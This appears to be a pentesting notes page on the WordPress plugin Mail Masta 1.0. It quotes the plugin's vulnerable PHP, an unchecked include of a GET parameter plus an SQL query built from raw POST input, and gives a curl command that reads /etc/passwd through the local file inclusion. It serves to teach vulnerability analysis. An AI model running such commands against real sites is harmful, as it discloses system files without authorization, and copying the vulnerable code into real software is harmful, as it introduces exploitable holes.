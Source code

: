 ```yaml
---
icon: wordpress
layout:
  width: default
  title:
    visible: true
  description:
    visible: false
  tableOfContents:
    visible: true
  outline:
    visible: true
  pagination:
    visible: false
  metadata:
    visible: true
---
```


# Plugin mail-masta 1.0

## Local File Inclusion

{% hint style="info" %}
## Exploit DB

[https://www.exploit-db.com/exploits/50226](https://www.exploit-db.com/exploits/50226)
{% endhint %}

"WordPress Plugin Mail Masta is prone to a local file inclusion vulnerability because it fails to sufficiently verify user-supplied input."

### Vulnerable Code

{% code overflow="wrap" lineNumbers="true" %}
```php
<?php 

include($_GET['pl']);
global $wpdb;

$camp_id=$_POST['camp_id'];
$masta_reports = $wpdb->prefix . "masta_reports";
$count=$wpdb->get_results("SELECT count(*) co from  $masta_reports where camp_id=$camp_id and status=1");

echo $count[0]->co;

?>
```
{% endcode %}

As we can see, the `pl` parameter allows us to include a file without any type of input validation or sanitisation. Using this, we can include arbitrary files on the web server. Let's exploit this to retrieve the contents of the `/etc/passwd` file using `cURL`.

### Example Exploitation

{% code title="Command" overflow="wrap" %}
```bash
curl -s http://blog.acme.com/wp-content/plugins/mail-masta/inc/campaign/count_of_send.php?pl=/etc/passwd
```
{% endcode %}

## SQL Injection

{% hint style="info" %}
## Exploit DB

[https://www.exploit-db.com/exploits/41438](https://www.exploit-db.com/exploits/41438)
{% endhint %}
